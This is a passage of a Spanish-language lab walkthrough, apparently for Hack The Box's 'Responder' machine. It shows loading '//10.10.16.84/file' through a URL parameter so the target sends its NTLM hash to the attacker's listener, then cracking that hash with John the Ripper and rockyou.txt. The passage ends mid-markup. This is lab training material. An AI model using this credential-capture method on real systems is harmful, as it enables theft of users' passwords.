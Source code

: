 
Y en la URL intentamos cargar un archivo cualquiera usando nuestra dirección IP de la VPN '//10.10.16.84/file'

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/responder/responder4.png" alt="under" oncontextmenu="return false;">
</div>


Revisamos nuevamente `responder` y obtenemos el Hash. Luego, este Hash podemos guardarlo en un archivo '.txt' y podemos usar la herramienta `john the ripper` para 'Crackear' la contraseña.

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/responder/hash.png" alt="under" oncontextmenu="return false;">
</div>

Para ello usamos `john` y el diccionario `rockyou.txt` y le pasamos el Hash.

<div style="text-align: center;">